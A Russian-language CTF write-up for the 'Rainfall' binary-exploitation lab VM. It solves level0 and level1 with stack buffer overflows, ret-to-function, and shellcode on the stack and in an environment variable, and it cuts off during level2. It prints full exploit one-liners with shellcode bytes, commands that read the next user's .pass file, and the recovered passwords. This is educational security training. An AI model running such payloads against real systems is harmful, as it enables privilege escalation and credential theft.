



<!-- <style>
  .filePath {
  background: red;
  color: white;
  }
  .off {
  color: red;
  }
  .on {
  color: green;
  }
</style> -->

# Rainfall
Проект по изучению методов взлома и поиску уязвимостей.

На платформе intra на странице проекта есть образ, который необходимо запустить на виртуальной машине и получить пароли от пользователей     \
level0 level1 level2 level3 level4     \
level5 level6 level7 level8 level9     \
bonu0 bonu1 bonu02 bonu3 end

Скрипт для запуска образа в VirtualBox: [Vbox/setup.sh](./Vbox/setup.sh) .

Полученные пароли записаны в файлы: \
[levelX](./project)/flag,           \
[bonusX](./project)/flag,           \
где X - номер уровня, на котором получен пароль.

Ниже последовательно описаны мои действия по достижению цели.

<a name="content"></a> 
# Содержание и список полученных паролей от следующего пользователя

[Вступительная теория о списке состояния механизмов защиты ядра](#Preamble)

| Пользователь           | Уязвимость | Инструмент | Пароль от следующего пользователя  |  
| ---------------------- | ---------- | -----------| ----------------------:|
| ........................... | ........................... | .................................................................................|........................................................................................................................ |
| [level0](#lvl0)        | Выявление с помощью gdb подходящего числа для ввода | gdb |  1fe8a524fa4bec01ca4ea2a869af2a02260d4a7d5fe7e7c24d8617e6dca12d3a |
| [level1](#lvl1)        | STACK CANARY: No canary found<br><br> NX: Disabled <br><br>PIE: No PIE <br><br> <p>использование функции gets(), наличие в коде функции system() </p> | <p>Работа со стеком. </p> <br> <p>поиск слабого места: gdb;</p> <p>взлом: переполнение буфера ( `gets()` ) и подмена EIP регистра (адрес возврата из функции) на адрес с нужным кодом: <br> - [адрес на system()](#level1_jump_to_system()), <br> - [положить шеллкод на стек и положить в EIP адрес шеллкода на стеке](#level1_shellcode_on_stack), <br> - [положить шеллкод в переменную окружения и положить в EIP адрес этой переменной окружения](#level1_shellcode_in_env) </p>| 53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77 |
| [level2](#lvl2)        | при ASLR off [Off-by-One](https://sploitfun.wordpress.com/2015/06/09/off-by-one-vulnerability-heap-based/) (на основе кучи), можно также [Use-After-Free](https://habr.com/ru/company/otus/blog/516150/). Использование функции gets() | <p>Работа с кучей. </p> <br> ltrace, getfacl, gdb |  |
| [level3](#lvl3)        |  |  |  |
| [level4](#lvl4)        |  |  |  |
| [level5](#lvl5)        |  |  |  |
| [level6](#lvl6)        |  |  |  |
| [level7](#lvl7)        |  |  |  |
| [level8](#lvl8)        |  |  |  |
| [level9](#lvl9)        |  |  |  |
| [bonus0](#bonus0)      |  |  |  |
| [bonus1](#bonus1)      |  |  |  |
| [bonus2](#bonus2)      |  |  |  |
| [bonus3](#bonus3)      |  |  |  |

#
###### [вернуться к содержанию](#content)
<a name="Preamble"></a> 
# Вступительная теория о списке состояния механизмов защиты ядра

После запуска ВМ при входе в пользователя появляется сообщение:
<!-- <pre>
_____       _       ______    _ _
|  __ \     (_)     |  ____|  | | |
| |__) |__ _ _ _ __ | |__ __ _| | |
|  _  /  _` | | '_ \|  __/ _` | | |
| | \ \ (_| | | | | | | | (_| | | |
|_|  \_\__,_|_|_| |_|_|  \__,_|_|_|

Good luck & Have fun

To start, ssh with level0/level0 on :4242
    level0@10.21.33.24's password:
    GCC stack protector support:            <font class=on>Enabled</font>
    Strict user copy checks:                <font class=off>Disabled</font>
    Restrict /dev/mem access:               <font class=on>Enabled</font>
    Restrict /dev/kmem access:              <font class=on>Enabled</font>
    grsecurity / PaX: <font class=off>No GRKERNSEC</font>
    Kernel Heap Hardening: <font class=off>No KERNHEAP</font>
    System-wide ASLR (kernel.randomize_va_space): <font class=off>Off (Setting: 0)</font>
    RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
    <font class=off>No RELRO        No canary found   <font class=on>NX enabled</font>    No PIE</font>          <font class=on>No RPATH   No RUNPATH</font>   <font class=filePath>/home/user/level0/level0</font>
</pre> -->


Это список состояния механизмов защиты ядра.

Чтобы повторно посмотреть этот вывод, можно вызвать 3 команды:
```sh
checksec --kernel
cat /proc/sys/kernel/randomize_va_space
checksec --file /home/user/level0/level0
```
Хорошие статьи о checksec и randomize_va_space:
1. [о checksec --kernel](https://blog.siphos.be/2011/07/high-level-explanation-on-some-binary-executable-security/),    
2. [о checksec --file и не только. RELPO, CANARY, NX, PIE](https://opensource.com/article/21/6/linux-checksec)     
3. [о kernel.randomize_va_space (ASLR)](https://www.spec.org/cpu2017/flags/Supermicro-Platform-Settings-V1.2-Milan-revC.html) 
4. [/proc/sys/kernel/randomize_va_space](https://www.kernel.org/doc/Documentation/sysctl/kernel.txt)
5. [kernel.randomize_va_space (ASLR)](https://www.spec.org/cpu2017/flags/Supermicro-Platform-Settings-V1.2-Milan-revC.html)

Еще кое-что для чтения о взломах
1. [Переполнение буфера: анатомия эксплоита](https://www.securitylab.ru/analytics/421994.php)
2. [Off-By-One Vulnerability (Heap Based)](https://sploitfun.wordpress.com/2015/06/09/off-by-one-vulnerability-heap-based/)
3. [Уязвимость Use-After-Free](https://habr.com/ru/company/otus/blog/516150/)

<details> 
  <summary> Некоторые рассуждения о прочитанном </summary>
    <ol>
      <li> 
          <p>
            Можно в определенных ситуациях воспользоваться перезаписью данных в переменную (перезаписать данные за пределами переменной):
          </p>
        <pre> Strict user copy checks:                <font class=off>Disabled</font></pre>
      </li>
      <li>
          <p>
          Можно попробовать вычислить нужный адрес процесса:
          </p>
        <pre> System-wide ASLR (kernel.randomize_va_space): <font class=off>Off (Setting: 0)</font></pre>
          <p>
            "Этот параметр можно использовать для выбора типа рандомизации адресного пространства процесса. Значения по умолчанию различаются в зависимости от того, поддерживает ли архитектура ASLR, было ли ядро ​​собрано с параметром CONFIG_COMPAT_BRK или нет, или от используемых параметров загрузки ядра.
          </p>
          <ul>
            Возможные настройки:
            <li>0: отключить рандомизацию адресного пространства процесса.</li>
            <li>1: Рандомизировать адреса базы mmap, стека и страниц VDSO.</li>
            <li>2: дополнительно рандомизируйте кучу. (Вероятно, это значение по умолчанию.)</li>
          </ul>
          <a href="https://www.spec.org/cpu2017/flags/Supermicro-Platform-Settings-V1.2-Milan-revC.html">
            "Отключение ASLR может сделать выполнение процессов более детерминированным, а время выполнения — более согласованным."
          </a>
      </li>
      <li>
        grsecurity / PaX: Custom GRKERNSEC
        <pre>
Non-executable kernel pages:            <font class=on>Enabled</font> / <font class=off>Disabled</font>
Prevent userspace pointer deref:        <font class=on>Enabled</font> / <font class=off>Disabled</font>
Prevent kobject refcount overflow:      <font class=on>Enabled</font> / <font class=off>Disabled</font>
Bounds check heap object copies:        <font class=on>Enabled</font> / <font class=off>Disabled</font>
Disable writing to kmem/mem/port:       <font class=on>Enabled</font> / <font class=off>Disabled</font>
Disable privileged I/O:                 <font class=on>Enabled</font> / <font class=off>Disabled</font>
Harden module auto-loading:             <font class=on>Enabled</font> / <font class=off>Disabled</font>
Hide kernel symbols:                    <font class=on>Enabled</font> / <font class=off>Disabled</font>
        </pre>
        Поскольку No GRKERNSEC, то всё вышеописанное отключено.
        <p>
          <a href="https://blog.siphos.be/2011/07/checksec-kernel-security/"> Подробнее об этих параметрах</a>
        </p>
        <p>
          <a href="https://www.opennet.ru/cgi-bin/opennet/man.cgi?topic=iopl&category=2"> ioperm и iopl </a>
        </p>
      </li>
    </ol>
</details>

#
###### [вернуться к содержанию](#content)
<a name="lvl0"></a> 
# level0

1. Проверяю содержимое директории и пробую запустить найденный файл различными способами:
```sh
ls -la
# ||
# \/
# -rwsr-x---+ 1 level1 users  747441 Mar  6  2016 level0

./level0
# ||
# \/
# Segmentation fault (core dumped)

ldd ./level0
# ||
# \/
# not a dynamic executable
```
Ссылки для чтения:
* [о чем говорит вывод `not a dynamic executable`](https://stackoverflow.com/questions/26541049/ltrace-couldnt-find-dynsym-or-dynstr-in-library-so) \
* [Как работает ltrace (инструмент трассировки библиотек)](https://stackoverflow.com/questions/32214079/how-does-ltrace-library-tracing-tool-work) \
* [внутреннее устройство ltrace](https://www.kernel.org/doc/ols/2007/ols2007v1-pages-41-52.pdf)

```sh
./level0 -1
# ||
# \/
# No !

gdb ./level0
(gdb) disas main
# ||
# \/
   0x08048ecc <+12>:	add    $0x4,%eax
   0x08048ecf <+15>:	mov    (%eax),%eax
   0x08048ed1 <+17>:	mov    %eax,(%esp)
   0x08048ed4 <+20>:	call   0x8049710 <atoi>
   0x08048ed9 <+25>:	cmp    $0x1a7,%eax
   0x08048ede <+30>:	jne    0x8048f58 <main+152>
```
Эти строки говорят о том, что при запуске ./level0 с аргументом, аргумент будет переведен в число и сравнен со значением 0x1a7<sub>16</sub> = 423<sub>10</sub>. При совпадении значений, будет произведен прыжок на 0x8048f58 <main+152> . 

2. Пробую 423 в качестве эксплоита:

```sh
./level0 423
$ cat /home/user/level1/.pass
# ||
# \/
# 1fe8a524fa4bec01ca4ea2a869af2a02260d4a7d5fe7e7c24d8617e6dca12d3a
$ exit
level0@RainFall:~$ su level1
# Password: 1fe8a524fa4bec01ca4ea2a869af2a02260d4a7d5fe7e7c24d8617e6dca12d3a
```

#
###### [вернуться к содержанию](#content)
<a name="lvl1"></a> 
# level1

<!-- <pre>
level0@RainFall:~$ su level1
<font color=grey>Password: 1fe8a524fa4bec01ca4ea2a869af2a02260d4a7d5fe7e7c24d8617e6dca12d3a</font>

RELRO      STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
<font class=off>No RELRO   No canary found   NX disabled   No PIE</font>          <font class=on>No RPATH   No RUNPATH</font>   <font class=filePath>/home/user/level1/level1</font>
</pre> -->


...................... \
RELRO: [защищает структуры исполняемого ELF-файла (изменение которых позволяет взломщику изменить ход выполнения программы) путем модификации секций PLT (Procedure Linking Table) или GOT (Global Offset Table) ELF-файла. При полном RELRO, вся таблица GOT перед началом исполнения в памяти помечается доступной только для чтения и таким образом предотвращает свою модификацию потенциальным злоумышленником.](https://www.opennet.ru/opennews/art.shtml?num=27938) Значит, что в этом случае можно "на ходу" поменять выполнение программы.

...................... \
No canary found - значит можно переполнить буфер и положить нужные нам значения для возврата из функции.

...................... \
No PIE - отключена рандомизация адресного пространства.

...................... \
NX: в полученном выводе видно, что NX выключено, значит, можно при запуске level1 поместить в стек исполняемый код и запустить его. Именно этим ниже я и воспользуюсь.

...................... \
исполняемый файл будет всегда запускаться от имени владельца - это level2:
```sh
ls -la
# ||
# \/
# -rwsr-s---+ 1 level2 users  5138 Mar  6  2016 level1

getfacl level1 
# ||
# \/
# # file: level1
# # owner: level2
# # group: users
# # flags: ss-
# user::rwx
# user:level2:r-x
# user:level1:r-x
# group::---
# mask::r-x
# other::---
```
Значит, с помощью этой программы можно получить доступ к файлам, на которые есть права у level2.

...................... 

1. Проверяю содержимое директории и пробую запустить найденный файл различными способами:
```sh
ls -la
# ||
# \/
# -rwsr-s---+ 1 level2 users  5138 Mar  6  2016 level1

./level1
# ||
# \/
# maybe loop or waiting for something...or something else

ltrace ./level1
# ||
# \/
# __libc_start_main(0x8048480, 1, 0xbffff7b4, 0x80484a0, 0x8048510 <unfinished ...>
# gets(0xbffff6d0, 47, 0xbffff71c, 0xb7fd0ff4, 0x80484a0
# )                           = 0xbffff6d0
# +++ exited (status 208) +++

```
2. Использование уязвимости:
NX disabled + No canary found + NO PIE + gets(), в которую подан аргумент при вызове программы.

Статьи по уровню:   
 - [О работе стека.](https://www.opennet.ru/base/dev/stack_intro.txt.html)    
 - [В королевстве PWN. Препарируем классику переполнения стека](https://snovvcrash.rocks/2019/10/20/classic-stack-overflow.html#gdb-peda)    
 - [Создание Эксплойта: Переполнение буфера стека](https://codeby.net/threads/sozdanie-ehksplojta-perepolnenie-bufera-steka.58741/)

gets() не проверяет длину поданной строки. И в этом уязвимость функции - можно переполнить буфер и положить вредоносный код (эксплоит) - \
[прыгнуть на system()](#level1_jump_to_system()), \
[положить шеллкод на стек и прыгнуть на адрес шеллкода на стеке](#level1_shellcode_on_stack), \
[положить шеллкод в переменную окружения и прыгнуть на адрес переменной окружения](#level1_shellcode_in_env)

Общее для всех трех способов взлома - подмена адреса возврата функции (регистр EIP). Подробно об этом ниже.

```sh
gdb -batch -ex 'file ./level1' -ex 'disas main'
# ||
# \/
# Dump of assembler code for function main:
#    0x08048480 <+0>:     push   %ebp
#    0x08048481 <+1>:     mov    %esp,%ebp
#    0x08048483 <+3>:     and    $0xfffffff0,%esp
#    0x08048486 <+6>:     sub    $0x50,%esp
#    0x08048489 <+9>:     lea    0x10(%esp),%eax
#    0x0804848d <+13>:    mov    %eax,(%esp)
#    0x08048490 <+16>:    call   0x8048340 <gets@plt>
#    0x08048495 <+21>:    leave  
#    0x08048496 <+22>:    ret    
# End of assembler dump.
```
<details> 
  <summary> Анализ disassemble main (не обязательно к прочтению) в развороте: </summary>
<br>

создается стековый фрейм (stack frame) или кадр стека: <br>
`0x08048480 <+0>:     push   %ebp` сохраняет в стеке содержимое регистра EBP <br>
`0x08048481 <+1>:     mov    %esp,%ebp` присваивает регистру
EBP значение ESP <br>
`0x08048483 <+3>:     and    $0xfffffff0,%esp` выравнивание стека по 16-байтовой границе, то есть каждая созданная переменная и выделенная в функции main область памяти будет выравниваться до размера, кратного 16 байтам.

Далее: <br>
`0x08048486 <+6>:     sub    $0x50,%esp` резерв места для локальных переменных функции main 50<sub>16</sub> = 80<sub>10</sub> байт - содержит:<br> 
возвращенное значение от `char* gets()`, то есть `char*` - 4 байта, выровненные до 16 ([Соглашение о вызове функций - выравнивание стека](https://www.cyberforum.ru/assembler-x64/thread1328915.html)) <br>
создание буфера под 80-16=64 байта

Приготовления для вызова функции gets(): <br>
`0x08048489 <+9>:     lea    0x10(%esp),%eax` в eax помещается значение `esp+10` [(без разименования)](https://stackoverflow.com/questions/1658294/whats-the-purpose-of-the-lea-instruction), то есть адрес на буфер в 50<sub>16</sub>-10<sub>16</sub>=40<sub>16</sub> = 64<sub>10</sub> байта (как я писала выше, 10<sub>16</sub> = 16<sub>10</sub> байт - это возвращаемое значение функцией gets(), то есть просто esp указывал бы как раз на это возвращаемое значение). <br>
`0x0804848d <+13>:    mov    %eax,(%esp)` в gets() передается указатель на буфер в 40<sub>16</sub> = 64<sub>10</sub> байта. <br>
`0x08048490 <+16>:    call   0x8048340 <gets@plt>` вызов gets()

Последнее:
`0x08048495 <+21>:    leave  ` <br>
Инструкция leave равносильна двум инструкциям <br>
1: `mov esp,ebp` вершина стека указывает на значение, которое занимала перед входом в функцию main <br>
2: `pop ebp` ebp опять принимает значение ebp вызывающей функции. <br>
`0x08048496 <+22>:    ret    `
инструкция ret верхнее значение стека присваивает регистру eip, [предполагая, что это сохраненный адрес возврата в вызывающую функцию, переходит по этому адресу](https://snovvcrash.rocks/2019/10/20/classic-stack-overflow.html).
<br><br><br>
</details>

<details> 
  <summary> Под этой строкой в развороте исходник и команда для компиляции: </summary>
<pre>
#include "stdlib.h"
#include "unistd.h"
#include "stdio.h"
#include "string.h"
#include "sys/types.h"
#include "sys/wait.h"
<br>
void  run(void) {
        fprintf(stdout, "Good... Wait what?\n");
        system("/bin/sh");
}<br>
int   main(int argc, char **argv) {
        char buffer[64];
        gets(buffer);
}
</pre>
gcc -m32 -z execstack -Wl,-z,norelro -fno-stack-protector исходник_level1.c -o level1
</details> 

Интересующая строка: \
`0x08048496 <+22>:    ret  ` инструкция ret верхнее значение стека присваивает регистру eip \
В соответствии с анализом, приведенным выше, надо переполнить буфер и подать нужный адрес на место, где в стеке размещался бы регистр eip. Ниже это я рассмотрю.

## Разработка эксплоита. Общее для всех трех способов  - прыжок на функцию, исполнение шеллкода на стеке, исполнение шеллкода из переменной окружения:
1. Расчет смещения EIP (адреса возврата) \
[Воспользуюсь сайтом.](https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/)

Нужное смещение 76 байт.


2. Поиск места для подмены адреса возврата:

```sh

gdb

disassemble TAB
# || 
# \/
# gets
# main
# run
# system
# fwrite
# data_start
# frame_dummy
# ...
```

<a name="level1_jump_to_system()"></a> 
## level1: перейти на system()

среди функций есть system().
Если прыгнуть сразу на system(), то оболочка не откроется, так как для открытия оболочки этой функции необходим аргумент `/bin/sh`. Для вызова system() с нужным аргументом нахожу функцию, которая ее вызывает (в main не было такой). Нахожу в run:
```sh
gdb -batch -ex 'file ./level1' -ex 'disassemble run' | grep system
# || 
# \/
#  0x08048479 <+53>:    call   0x8048360 <system@plt>
```
Отлично. Это то, что нужно. \
`0x08048472 <+46>:    movl   $0x8048584,(%esp)` кладет `/bin/sh` в аргумент для system() \
`0x08048479 <+53>:    call   0x8048360 <system@plt>` вызов system() c `/bin/sh`

Посмотреть содержимое переменной: 
```
(gdb) x 0x8048584
0x8048584:       "/bin/sh"
```
Теперь нужно подать вместо адреса возврата в main адрес `0x08048472 <+46>:    movl   $0x8048584,(%esp)`, либо любой, после которого я попадаю на эту строку внутри run():
```sh
gdb
(gdb) disassemble run
# || 
# \/
# Dump of assembler code for function run:
#    0x08048444 <+0>:     push   %ebp
#    0x08048445 <+1>:     mov    %esp,%ebp
#    0x08048447 <+3>:     sub    $0x18,%esp
#    0x0804844a <+6>:     mov    0x80497c0,%eax
#    0x0804844f <+11>:    mov    %eax,%edx
#    0x08048451 <+13>:    mov    $0x8048570,%eax
#    0x08048456 <+18>:    mov    %edx,0xc(%esp)
#    0x0804845a <+22>:    movl   $0x13,0x8(%esp)
#    0x08048462 <+30>:    movl   $0x1,0x4(%esp)
#    0x0804846a <+38>:    mov    %eax,(%esp)
#    0x0804846d <+41>:    call   0x8048350 <fwrite@plt>
#    0x08048472 <+46>:    movl   $0x8048584,(%esp)
#    0x08048479 <+53>:    call   0x8048360 <system@plt>
#    0x0804847e <+58>:    leave  
#    0x0804847f <+59>:    ret    
# End of assembler dump.
```
Таким образом подойдет любой из этих:
0x08048444 \
0x08048445 \
0x08048447 \
0x0804844a \
0x0804844f \
0x08048451 \
0x08048456 \
0x0804845a \
0x08048462 \
0x0804846a \
0x0804846d \
0x08048472 

Я возьму 0x08048472 на строку выше, чем system(): 
```sh
#                                       0x08048472
(echo $(python -c 'print "a" * 76 + "\x72\x84\x04\x08"'); cat) | ./level1
whoami
# || 
# \/
# level2
cat /home/user/level2/.pass
# || 
# \/
# 53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```
```sh
su level2
# Password: 53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

<a name="level1_shellcode_on_stack"></a> 
## level1: shellcode на стеке

Для shellcodes мне понравился сайт http://shell-storm.org/ . \
На нем есть масса полезных статей по кибербезопасности и [готовые shellcodes](http://shell-storm.org/shellcode/index.html).

<details> 
  <summary> Чтобы подобрать подходящий код, я проделала шаги, указанные в развороте: </summary>

1. Узнаю ОС:
```sh
uname -a
# ||
# \/
# Linux RainFall 3.2.0-90-generic-pae #128-Ubuntu SMP Fri Aug 14 22:16:51 UTC 2015 i686 i686 i386 GNU/Linux
```
В данном случае 32-разрядная ОС.

2. Теперь надо узнать информацию об архитектуре CPU:

```sh
lscpu
# ||
# \/
# Architecture:          i686
# CPU op-mode(s):        32-bit, 64-bit
# Byte Order:            Little Endian
# CPU(s):                1
# On-line CPU(s) list:   0
# Thread(s) per core:    1
# Core(s) per socket:    1
# Socket(s):             1
# Vendor ID:             GenuineIntel
# CPU family:            6
# Model:                 55
# Stepping:              8
# CPU MHz:               2163.246
# BogoMIPS:              4326.49
# Virtualization:        VT-x
# L1d cache:             24K
# L1i cache:             32K
# L2 cache:              1024K
```
Значит, мне нужен код для:  \
Linux 32-bit                \
Intel/x86                   \
Этот код будет содержать execve() - запуск оболочки. <br>
<br>
Я выбрала:                  \
`||`                        \
`\/`                        \
Intel x86                   \
Sauder                      \
Linux/x86 - execve() Diassembly Obfuscation Shellcode - 32 bytes by BaCkSpAcE
<br><br><br>
</details> 

Узнаю количесвто символов на стеке после буфера, которое я могу безопасно использовать для своих целей:
```sh
python -c 'print "A"*76 + "B" * 4 + "C" * 72'
# ||
# \/
# AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC

gdb level1

(gdb)r $(python -c 'print "A"*76 + "B" * 4 + "C" * 72')
# ||
# \/
# Program received signal SIGSEGV, Segmentation fault.
# 0x42424242 in ?? ()

(gdb) x/64xw $esp-80
# ||
# \/
# 0xbffff5f0:     0x41414141      0x41414141      0x41414141      0x41414141
# 0xbffff600:     0x41414141      0x41414141      0x41414141      0x41414141
# 0xbffff610:     0x41414141      0x41414141      0x41414141      0x41414141
# 0xbffff620:     0x41414141      0x41414141      0x41414141      0x41414141
# 0xbffff630:     0x41414141      0x41414141      0x41414141      0x42424242
# 0xbffff640:     0x43434343      0x43434343      0x43434343      0x43434343
# 0xbffff650:     0x43434343      0x43434343      0x43434343      0x43434343
# 0xbffff660:     0x43434343      0x43434343      0x43434343      0x43434343
# 0xbffff670:     0x43434343      0x43434343      0x43434343      0x43434343
# 0xbffff680:     0x43434343      0x43434343      0x00000000      0x08048390
# 0xbffff690:     0x00000000      0xb7ff26b0      0xb7e453e9      0xb7ffeff4
# 0xbffff6a0:     0x00000001      0x08048390      0x00000000      0x080483b1
# 0xbffff6b0:     0x08048480      0x00000001      0xbffff6d4      0x080484a0
# 0xbffff6c0:     0x08048510      0xb7fed280      0xbffff6cc      0xb7fff918
# 0xbffff6d0:     0x00000001      0xbffff819      0x00000000      0xbffff832
# 0xbffff6e0:     0xbffff847      0xbffff85e      0xbffff876      0xbffff886

```
`C` выровнены начиная с адреса `0xbffff640` - это именно то место, куда будет положен shellcode и NOP-срезы.

Запуск в дебаггере  кода с выводом от команды \
`(python -c 'print "A"*76 + "\x40\xf6\xff\xbf" + "\x90" * 40 + "\x68\xcd\x80\x68\x68\xeb\xfc\x68\x6a\x0b\x58\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xeb\xe1"')` \
отработает, но оболочка откроется с правами пользователя, запустившего бинарник. Это особенность дебаггера в целях безопасности.

За пределами дебаггера выполняю команду: \
`(python -c 'print "A"*76 + "\x40\xf6\xff\xbf" + "\x90" * 40 + "\x68\xcd\x80\x68\x68\xeb\xfc\x68\x6a\x0b\x58\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xeb\xe1"'; cat) | ./level1 ` \
и оболочка не открывается, потому что я не попадаю на шелл код. Это связано с тем, что при запуске в дебаггере и без него адреса немного отличаются (разные переменные окружения, которые кладутся перед кодом программы).

Подбираю правильный адрес на 16*3 байт больше, чтобы попасть на NOP-срез и проскользить до shellcode:
```sh
(python -c 'print "A"*76 + "\x70\xf6\xff\xbf" + "\x90" * 40 + "\x68\xcd\x80\x68\x68\xeb\xfc\x68\x6a\x0b\x58\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xeb\xe1"'; cat) | ./level1 
        whoami
        level2
        cat /home/user/level2/.pass
        53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77

```
Уровень пройден!
```sh
su level2
# Password: 53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

<a name="level1_shellcode_in_env"></a> 
## level1: shellcode в env

В [level1: shellcode на стеке](#level1_shellcode_on_stack) я рассматривала, как подобрать подходящий shellcode. Воспользуюсь здесь тем же кодом.

Создаю переменную окружения:
```sh
export SHELLCODE=$'\x68\xcd\x80\x68\x68\xeb\xfc\x68\x6a\x0b\x58\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xeb\xe1'
```
Компилирую и запускаю файл (env_addr.c):
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main() {
        printf("%p\n", getenv("SHELLCODE"));
        return 0;
}
```
```sh
gcc /tmp/env_addr.c -o /tmp/env_addr
level2@RainFall:~$ /tmp/env_addr
0xbffff868

(python -c 'print "A"*76 + "\x68\xf8\xff\xbf" + "\x90" * 40 + "\x68\xcd\x80\x68\x68\xeb\xfc\x68\x6a\x0b\x58\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xeb\xe1"'; echo "cat /home/user/level2/.pass") | ./level1 
# ||
# \/
# 53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```
Уровень пройден!
```sh
su level2
# Password: 53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

#
###### [вернуться к содержанию](#content)
<a name="lvl2"></a> 
# level2

<!-- <pre>
level0@RainFall:~$ su level2
<font color=grey>Password: 53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77</font>

RELRO      STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
<font class=off>No RELRO   No canary found   NX disabled   No PIE</font>          <font class=on>No RPATH   No RUNPATH</font>   <font class=filePath>/home/user/level2/level2</font>
</pre> -->


```sh
ls -la
# ||
# \/
# -rwsr-s---+ 1 level3 users  5403 Mar  6  2016 level2

getfacl level2 
# ||
# \/
# # file: level2
# # owner: level3
# # group: users
# # flags: ss-
# user::rwx
# user:level2:r-x
# user:level3:r-x
# group::---
# mask::r-x
# other::---

./level2 
# ||
# \/
# 
# 
./level2 
# ||
# \/
# sdgsdg
# sdgsdg

ltrace ./level2 
# ||
# \/
# __libc_start_main(0x804853f, 1, 0xbffff6f4, 0x8048550, 0x80485c0 <unfinished ...>
# fflush(0xb7fd1a20)                                                             = 0
# gets(0xbffff5fc, 0, 0, 0xb7e5ec73, 0x80482b5 12345678Hello
# )                                  = 0xbffff5fc
# puts(" 12345678Hello" 12345678Hello
# )                                                         = 15
# strdup(" 12345678Hello")                                                       = 0x0804a008
# +++ exited (status 8) +++

(gdb) disassemble Tab
# ||
# \/
# main p printf puts fflush strdup gets
# ...

(gdb) disassemble main
# ||
# \/
# Dump of assembler code for function main:
#    0x0804853f <+0>:     push   %ebp
#    0x08048540 <+1>:     mov    %esp,%ebp
#    0x08048542 <+3>:     and    $0xfffffff0,%esp
#    0x08048545 <+6>:     call   0x80484d4 <p>
#    0x0804854a <+11>:    leave  
#    0x0804854b <+12>:    ret    
# End of assembler dump.
```
main только вызывает p()

```sh
(gdb) disassemble p
# ||
# \/
# Dump of assembler code for function p:
#    0x080484d4 <+0>:     push   %ebp
#    0x080484d5 <+1>:     mov    %esp,%ebp
#    0x080484d7 <+3>:     sub    $0x68,%esp
#    0x080484da <+6>:     mov    0x8049860,%eax
#    0x080484df <+11>:    mov    %eax,(%esp)
#    0x080484e2 <+14>:    call   0x80483b0 <fflush@plt>
#    0x080484e7 <+19>:    lea    -0x4c(%ebp),%eax
#    0x080484ea <+22>:    mov    %eax,(%esp)
#    0x080484ed <+25>:    call   0x80483c0 <gets@plt>
